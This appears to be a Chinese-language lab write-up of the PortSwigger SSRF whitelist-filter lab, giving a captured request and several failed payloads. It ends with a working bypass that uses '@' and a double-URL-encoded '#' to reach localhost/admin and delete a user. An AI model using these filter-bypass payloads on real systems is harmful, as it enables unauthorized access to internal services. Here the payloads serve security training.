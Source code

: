 ```yaml
---
layout: post
title: "SSRF with whitelist-based input filter"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_SSRF
author: ""
tags: ['PortSwigger_Lab', 'SSRF']
---
```






# SSRF with whitelist-based input filter


好文:
ip變形
https://cht.chowdera.com/2022/195/202207141258177652.html

https://ithelp.ithome.com.tw/articles/10245403?sc=iThelpR

https://moy.cat/2018/10/%E5%86%B7%E7%9F%A5%E8%AF%86%EF%BC%9Aip-%E5%9C%B0%E5%9D%80%E7%9A%84-n-%E7%A7%8D%E5%86%99%E6%B3%95/


double url encode :
https://owasp.org/www-community/Double_Encoding#:~:text=A%20double%20encoded%20URL%20can,no%20mechanisms%20to%20improve%20detection.


```
This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass. 




該實驗室具有庫存檢查功能，可從內部系統獲取數據。

為解決實驗室問題，更改庫存檢查 URL 以訪問 http://localhost/admin 的管理界面並刪除用戶 carlos。

開發人員已經部署了您需要繞過的反 SSRF 防禦。

```



BP 
```http

POST /product/stock HTTP/1.1
Host: 0ad000fb037c2182c022a3da00a00059.web-security-academy.net
Cookie: session=xvm2b4iB3kLr7JinnV7XBgGRw5TvM92H
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: */*
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ad000fb037c2182c022a3da00a00059.web-security-academy.net/product?productId=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0ad000fb037c2182c022a3da00a00059.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D4%26storeId%3D1

```


```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=4&storeId=1
```

```

http://localhost
External stock check host must be stock.weliketoshop.net"



http://127.0.0.1
External stock check host must be stock.weliketoshop.net"




http://2130706433
"External stock check host must be stock.weliketoshop.net"



http://stock.weliketoshop.net
可跳出畫面，但是是錯勿畫面，這一步告知我們stock.weliketoshop.net 是可以取得response data的



```


@繞過

```
@
https://translate.google.com.tw@127.0.0.1
最後會忽略前面的https://translate.google.com.tw




URL路徑中使用#，為url錨點或片段(錨點後不會傳給後端)
http://localhost#@stock.weliketoshop.net
失敗



url encode #繞過
http://localhost%23@stock.weliketoshop.net
失敗




http://localhost%25%32%33@stock.weliketoshop.net
可以彈出畫面了但不是我們要的畫面


```



解釋:
```
http://localhost%25%32%33@stock.weliketoshop.net



1.利用@忽略前面的http://localhost%25%32%33，所以輸入值 = stock.weliketoshop.net
別忘了實際上http://localhost%25%32%33還在。(所以可以被white list 接受)



2.關鍵錨點#此時被double encode 後端的檢查把它 decode 一次為 %23 ，所以得到
http://localhost%23@stock.weliketoshop.net



3.全部檢查轉換完後，把url拿去請求伺服器
http://localhost%23@stock.weliketoshop.net 



4.server 解析 url decode 
http://localhost#@stock.weliketoshop.net



5.發現錨點# 因此後面@stock.weliketoshop.net被當成錨點
真正 host = http://localhost




```


### 理解後可以真正填上路徑，但有個坑(不確定)
```

照理說/admin應該是擺在前，但會失敗

http://localhost/admin%25%32%33@stock.weliketoshop.net

"External stock check host must be stock.weliketoshop.net"


///////////////////////////////////////////////////////////////////////////////




double url encode /admin


http://localhost%25%32%66%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%33@stock.weliketoshop.net

有response 但是畫面跟 http://localhost 一樣



///////////////////////////////////////////////////////////////////////////////



/admin擺在後就會成功

http://localhost%25%32%33@stock.weliketoshop.net/admin





```


### 得到:
```
<a href="/admin/delete?username=carlos">Delete</a>
```

```
http://localhost%25%32%33@stock.weliketoshop.net/admin/delete?username=carlos
```

### 成功






### 擺在後就會成功，可能是它會有路徑拼接檢查的功能，但我不知道規則
```
http://localhost%25%32%33@stock.weliketoshop.net/admin


猜測:


1.利用@忽略前面的http://localhost%25%32%33，
host = http://localhost%25%32%33@stock.weliketoshop.net
path = /admin




2.關鍵錨點#此時被double encode 後端的檢查把它 decode 一次為 %23 ，所以得到
host =http://localhost%23@stock.weliketoshop.net
path = /admin





3.全部檢查轉換完後，把host拿去請求伺服器 帶上參數 path
host = http://localhost%23@stock.weliketoshop.net
path = /admin



4.server 解析 host 
host = http://localhost#@stock.weliketoshop.net
path = /admin



5.發現錨點# 因此後面@stock.weliketoshop.net被當成錨點
host = http://localhost
path = /admin



6.拼接並請求

http://localhost/admin



```

